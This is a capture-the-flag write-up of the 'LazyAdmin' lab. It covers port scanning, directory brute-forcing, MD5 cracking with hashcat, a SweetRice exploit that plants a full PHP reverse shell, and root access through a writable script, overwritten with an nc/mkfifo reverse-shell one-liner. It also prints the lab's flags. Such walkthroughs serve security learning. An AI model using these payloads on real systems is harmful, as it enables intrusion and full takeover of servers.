

# LazyAdmin

## Port Scanning

First of all, I did a quick port scan which yielded the following result:

```
t0thkr1s : ~/Documents
➤  nmap -A -Pn -p- 10.10.158.39
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-16 19:59 CET
Nmap scan report for 10.10.158.39
Host is up (0.062s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Admin Page

Not much turned up, so I initiated a directory brute-force on the website.

```
t0thkr1s : /opt/tools/ffuf
➤  ./ffuf -c -u http://10.10.158.39/FUZZ -w ../seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0-rc1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.158.39/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
:: Progress: [20473/20473] :: 538 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

Let's check out the `content` directory:



After a little bit of searching, I found a publicly available exploit: https://www.exploit-db.com/exploits/40718 This backup disclosure made me find this directory:


## Hash Cracking

In there, I found an MD5 hash that I cracked using an online tool.


If you have a powerful GPU, you can do this step manually like this:

```
t0thkr1s : ~/Downloads
➤  hashcat -m 0 hash.txt /opt/rockyou.txt 
hashcat (v5.1.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GTX 1070 Ti, 2029/8116 MB allocatable, 19MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Temperature abort trigger set to 90c

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=1 -D VENDOR_ID=32 -D CUDA_ARCH=601 -D AMD_ROCM=0 -D VECT_SIZE=1 -D DEVICE_TYPE=4 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
* Device #1: Kernel m00000_a0-pure.90f824bd.kernel not found in cache! Building may take a while...


Dictionary cache built:
* Filename..: /opt/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

42f749ade7f9e195bf475f37a44cafcb:Password123     
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 42f749ade7f9e195bf475f37a44cafcb
Time.Started.....: Wed Dec 18 10:24:09 2019 (0 secs)
Time.Estimated...: Wed Dec 18 10:24:09 2019 (0 secs)
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 55360.9 kH/s (3.26ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1245184/14344384 (8.68%)
Rejected.........: 0/1245184 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> swethy
Hardware.Mon.#1..: Temp: 44c Fan:  0% Util:  2% Core:1771MHz Mem:3802MHz Bus:16

Started: Wed Dec 18 10:24:05 2019
Stopped: Wed Dec 18 10:24:10 2019
```

I couldn't use the acquired password anywhere, so I enumerated a little more with `ffuf`.

```
t0thkr1s : /opt/tools/ffuf
➤  ./ffuf -c -u http://10.10.158.39/content/FUZZ -r -w ../seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0-rc1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.158.39/content/FUZZ
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
_themes                 [Status: 200, Size: 963, Words: 64, Lines: 17]
as                      [Status: 200, Size: 3667, Words: 144, Lines: 114]
attachment              [Status: 200, Size: 773, Words: 52, Lines: 16]
images                  [Status: 200, Size: 3443, Words: 181, Lines: 29]
inc                     [Status: 200, Size: 6684, Words: 406, Lines: 45]
js                      [Status: 200, Size: 1776, Words: 116, Lines: 21]
:: Progress: [20473/20473] :: 660 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

Well, the `as` sub-directory contained the following:


For this specific SweetRice version, I found another promising exploit: https://www.exploit-db.com/exploits/40700 To get a reverse shell, I modified it like this: 

```php
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.197.20/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.5.65';		// CHANGE THIS
$port = 9898;		// CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {

	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {

	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
&lt;/textarea&gt;
</form>
</body>
</html>
```

## Gaining Access

We can trigger it with the following command:

```
curl http://10.10.197.20/content/inc/ads/hacked.php
```

I got a reverse shell connection back on my listener.

```
t0thkr1s : ~
➤  ncat -lvp 9898
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9898
Ncat: Listening on 0.0.0.0:9898
Ncat: Connection from 10.10.197.20.
Ncat: Connection from 10.10.197.20:36142.
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 11:50:49 up 24 min,  0 users,  load average: 0.02, 0.06, 0.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1085): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I found the user flag in itguy's home directory.

```
www-data@THM-Chal:/home/itguy$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

> User Flag: THM{63e5bce9271952aad1113b6f1ac28a07}

## Privilege Escalation

It looks like we can execute the `/usr/bin/perl /home/itguy/backup.pl` command as `root` without a password.

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29 13:45 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

I modified the `backup.pl` file to execute a new reverse shell as `root`.

```
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.5.65 9797 >/tmp/f" > /etc/copy.sh
-i 2>&1|nc 10.8.5.65 9797 >/tmp/f" > /etc/copy.sh 
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.5.65 9797 >/tmp/f
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

Here's the connection I got back:

```
t0thkr1s : ~
➤  ncat -lvp 9797
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9797
Ncat: Listening on 0.0.0.0:9797
Ncat: Connection from 10.10.197.20.
Ncat: Connection from 10.10.197.20:37512.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -la
total 28
drwxr-x---  4 root root 4096 dec 18 11:28 .
drwxr-xr-x 23 root root 4096 nov 29 11:45 ..
lrwxrwxrwx  1 root root    9 nov 29 12:31 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
drwx------  2 root root 4096 feb 27  2019 .cache
drwxr-xr-x  2 root root 4096 nov 29 13:04 .nano
-rw-r--r--  1 root root  148 aug 17  2015 .profile
-rw-r--r--  1 root root   38 nov 29 12:32 root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

> Root Flag: THM{6637f41d0177b6f37cb20d775124699f}
